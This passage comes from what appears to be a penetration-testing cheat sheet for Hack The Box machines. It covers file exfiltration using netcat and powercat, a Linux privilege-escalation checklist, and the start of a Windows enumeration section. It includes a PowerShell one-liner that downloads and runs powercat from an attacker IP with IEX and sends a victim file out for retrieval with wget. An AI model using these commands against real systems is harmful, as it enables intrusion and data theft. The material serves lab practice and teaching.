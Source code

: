 ```        nc -lvp 4444 > FiletoDownload ```

        Powercat

        In this method we will load in memory the powercat module, a tool with which we can load a shell, send files. In this case we will use it for this same.
        We have the powercat.ps1 file hosted on our machine and load it using the DownloadString function. We execute powercat to send the file and through wget we download it in our machine.
        We will see that the download never ends but we will cancel it when it may have finished depending on the size of the file.



        Victim machine command:
        
        	
```        powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.10.1/powercat.ps1');powercat -l -p 4444 -i C:\Users\test\FiletoDownload"   ```

        Attacking machine command:
        
        	
```       wget http://10.10.10.2:4444/FiletoDownload   ```

Tools:
netcat, impacket, pyftpdlib, powercat, twistd

***************
## 4) Linux Enumeration:

Forget about kernel exploits. HTB’s linux machines are *almost* never vulnerable to kernel exploits. so.. enumeration, enumeration and enumeration.
1. start with very basics, check /etc/passwd for existing users, check home directories and files owned by those users.

2. Can you run a binary/script with sudo? check with $ sudo -l

3. Check for SUID files — $ find / -perm -4000 2>/dev/null

4. Any cron jobs running? cat /etc/crontab or crontab -l ; pspy tool can also be used to find any binary/scripts that are being run repeatedly. Simply download it from https://github.com/DominicBreuker/pspy/releases, copy it to the target machine and run.

5. Still found nothing that leads to privesc? Copy LinEnum.sh (https://github.com/rebootuser/LinEnum) script and run it. Read all outputs line by line, you’ll find something fishy. (LinEnum.sh can be run with -t argument for more thorough test)

6. Found a weird binary (SUID or with sudo permissions)? Don’t know how to abuse it to get shell? GTFObins comes to rescue. Let’s say you can run /usr/bin/node binary as sudo but you don’t know how to use that to pop a root shell then search for “node” in https://gtfobins.github.io and you’ll get plenty of information which will help you to escalate privileges.

7. Lastly, I can’t recommend g0tmi1k’s cheatsheet enough for privesc.

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)


********
## 5) Windows Enumeration:

Windows has it’ s own different world than linux but concept is same — find files with weak permissions, vulnerable programs, programs running with higher level of privileges and so on.

```